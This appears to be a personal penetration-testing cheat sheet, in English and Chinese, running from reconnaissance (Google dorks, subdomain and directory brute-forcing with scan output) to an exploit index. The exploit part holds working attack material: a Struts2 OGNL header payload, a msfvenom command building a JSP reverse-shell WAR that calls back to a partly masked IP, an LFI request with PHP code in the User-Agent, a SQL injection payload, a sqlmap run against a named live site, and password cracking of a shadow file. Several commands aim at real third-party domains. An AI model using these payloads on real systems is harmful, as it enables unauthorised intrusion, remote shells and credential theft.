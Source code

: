 Real World HTF：

1.get all subsite in sublist3r \ shodan \ google dorks \ GISL \ Maltego \ censys \ virtual host scanner

1.1 GOOGLE Dorks
site:target.com -www
site:target.com intitle:”test” -support
site:target.com ext:php | ext:html
site:subdomain.target.com
site:target.com inurl:auth
site:target.com inurl:dev


site:Github.com User ID='sa';Password

ruby scan.rb --ip=192.168.1.101 --host=domain.tld
1.2 sublist3r + IPPorxy

1.3 domain无用时，使用https://censys.io/ipv4?q=103.37.152.58/24直接获取相应网段

1.4 GSIL、GitHunter
RT
1.5 
Wappaylzer (useful in profiling front page)

2.detail target:
2.0 normal directories in dirb(默认设置不用指定字典） \ gobuster \ dirsearch \ nikto \ Cansina \ Dirsearch \ Fuzzdb
首先获取代理ip，否则暴目录很容易被banned，https://github.com/qiyeboy/IPProxyPool


其次是字典，中国站点可能需要随机字符产生，否则容易遗漏大量地址
gobuster -u http://o14.ycpi.ne1.yahoo.com/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
*
对于tomcat：
https://github.com/danielmiessler/SecLists/blob/c196a6e62d0b63d6be0c84e6fa224352ea5949df/Discovery/Web-Content/ApacheTomcat.fuzz.txt
对于git：
Discovery/Web-Content/quickhits.txt
对于wp：
root@lance:~/Desktop/git/SecLists# gobuster -u https://xxxx.top -p http://221.7.255.168:8080 -w /root/Desktop/git/SecLists/Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt //926行
fuzzdb/discovery/predictable-filepaths/cms/wordpress.txt //1500+

//wp-includes/theme-compat/footer.php (Status: 200)
//wp-includes/theme-compat/comments.php (Status: 200)
//wp-includes/theme-compat/sidebar.php (Status: 200)
//wp-includes/theme-compat/header.php (Status: 200)
//wp-includes/update.php (Status: 200)
//wp-includes/theme.php (Status: 200)
//wp-includes/user.php (Status: 200)
//wp-includes/vars.php (Status: 200)
//wp-includes/version.php (Status: 200)
//wp-includes/widgets.php (Status: 200)
//wp-includes/wlwmanifest.xml (Status: 200)
//wp-includes/wp-db.php (Status: 200)
//wp-load.php (Status: 200)
//wp-login.php (Status: 200)
//wp-includes/wp-diff.php (Status: 200)
//wp-settings.php (Status: 200)
//wp-signup.php (Status: 302)
//wp-mail.php (Status: 403)
//wp-links-opml.php (Status: 200)
=====================================================
2018/09/12 15:22:47 Finished
=====================================================


2.3 不使用字典
nikto -host http://xxx.sss.com/cms/ -Display 
15:26:11 2018 - 404 for GET:       /cms/yt/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/mx/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/fm/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/md/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/mc/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/mn/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/me/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       /cms/ms/
V:Thu Sep 27 15:26:11 2018 - 404 for GET:       

查看AWS s3服务器 slurp
root@HQ:/usr/bin/slurp# ./slurp domain -t sankuai.com
./slurp keyword -t sankuai.com log

2.4 github
gitdumper http://domain.com/someDir/.git clone



3. Exploit - Index
3.1  struts2 .action .do .go

Content-Type: %{#context[‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’].addHeader(‘X-Ack-Th3g3nt3lman-POC’,4*4)}.multipart/form-data

relative-url-extractor
https://github.com/jobertabma/relative-url-extractor
ruby extract.rb demo-file.js
ruby extract.rb https://hackerone.com/some-file.js
ruby extract.rb '|cat demo-file.js' -c
3.2 msf tomcat scanner auxiliary/scanner/http/tomcat_mgr_login

3.2.1 scan default admin:password


3.2.2 generating .war reverse shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=18.191.1**.* LPORT=4444 -f war > shell.war

bash shell 批量扫

for  line  in  `cat filename`
do
echo ${line}
done

3.3 LFI
参考https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>

3.4 SQLi
1.order by
https://www.cnblogs.com/REscan/p/6884278.html
http://www.freebuf.com/column/145988.html
?evil=and(updatexml(1,concat(0x7e,(select user())),0))		
c:\python27\python.exe sqlmap.py -u "https://paweixin.zhulv.club/index.php/padgadmin/Houtai/EditQa/wtid/101*" -D sakila -T customer_list --columns --batch


3.5 XXE
3.6 Deserialization
3.6.1 Java Deserialization
3.6.2 Nodejs / Python / PHP Deserialization

Understanding PHP Object Injection
Java Deserialization Cheat Sheet
Rails Remote Code Execution Vulnerability Explained
Arbitrary code execution with Python pickles
Nodejs参考


https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

https://medium.com/bugbountywriteup/hackthebox-celestial-writeup-dc202c3f1ec




3.7 Logic Testing Case

https://medium.com/bugbountywriteup/exploiting-an-unknown-vulnerability-a752272ffd7f

假设遇到
Consultant set fee in coins for their service.
# consultant request
POST /set/fee/
{"value": 5, "timing":2}
Clients visits consultant’s timeline, select an appropriate time slot and book that timing, coins get deducted from client’s account according to fee shown in timeline respective to time slot.
# client request
POST /consultant_username/book
{"timing":2}


则至少有以下测试点

Injection vulnerability like Sqli, Command injection
Modify content type and request data to xml for testing XML injection
Booking consultant’s higher value time slots in less coin
Injecting “value” parameter from consultant request and using it in client request
Parameter pollution by injection two timing values in client request
Array based injection using timing value in client request i.e {“timing[0]”:2}
HTTP method tampering by changing POST to PUT
Booking for two or more time slots of same consultant by playing multi-threaded client request (Race condition)
Booking two different consultant’s time slots by playing multi-threaded client request (Race condition)


3.8 Local Enumeration 

john shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt 其中shadow.backup是hash文件
sudo -l 查看允许使用sudo的命令













==========================

App

apk downloader
https://apps.evozi.com/apk-downloader/?id=com.shipt.groceries
